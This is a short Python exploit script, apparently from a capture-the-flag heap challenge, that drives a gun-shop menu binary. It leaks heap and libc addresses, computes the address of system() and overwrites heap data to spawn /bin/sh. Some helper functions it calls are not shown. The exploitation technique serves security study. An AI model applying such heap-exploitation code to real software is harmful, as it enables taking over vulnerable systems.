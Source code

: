 ```python

def use(option):
    p.recvuntil('7. Exit')
    p.sendline('5')
    p.recvuntil('4. Main menu')
    p.sendline(str(option))

def rename(index, length, name):
    p.recvuntil('7. Exit')
    p.sendline('4')
    p.recvuntil('Choose a gun to rename:')
    p.sendline(str(index))
    p.recvuntil('Lenth of name：')
    p.sendline(str(length))
    p.recvuntil('Input name:')
    p.sendline(name)


buy(1, 0x50, 'a')
buy(1, 0x60, 'b')
buy(1, 2, 'c')
buy(1, 2, 'd')
select(2)
drop(0)
drop(1)
drop(2)
drop(3)
buy(1, 0x20000, 'a')

p.recvuntil('7. Exit')
p.sendline('5')
p.recvuntil('Select gun ')
leak_heap = u32(p.recv(4))
print 'leak_heap addr is', hex(leak_heap)

p.recvuntil('4. Main menu')
p.sendline('4')

heap_base = leak_heap - 0x20
buy(1, 0xf4, 'a' * 0xdc + p32(heap_base + 0x11c))

p.recvuntil('7. Exit')
p.sendline('5')
p.recvuntil('Select gun ')
leak_libc = u32(p.recv(4))
print 'leak_libc addr is', hex(leak_libc)


if local: 
    libc_base = leak_libc - 0x1b37b0
    system_addr = libc_base + libc.symbols['system']
else:
    libc_base = leak_libc - 0x1b27b0
    system_addr = libc_base + 0x3ada0

print 'sytem addr is ', hex(system_addr)

p.recvuntil('4. Main menu')
p.sendline('4')

drop(1)
buy(1, 0xf4, ('/sh\0' + p32(system_addr)).ljust(0xd8, 'a') + p32(heap_base + 0x28) + p32(heap_base + 0x11c) + ");/bin/sh")
```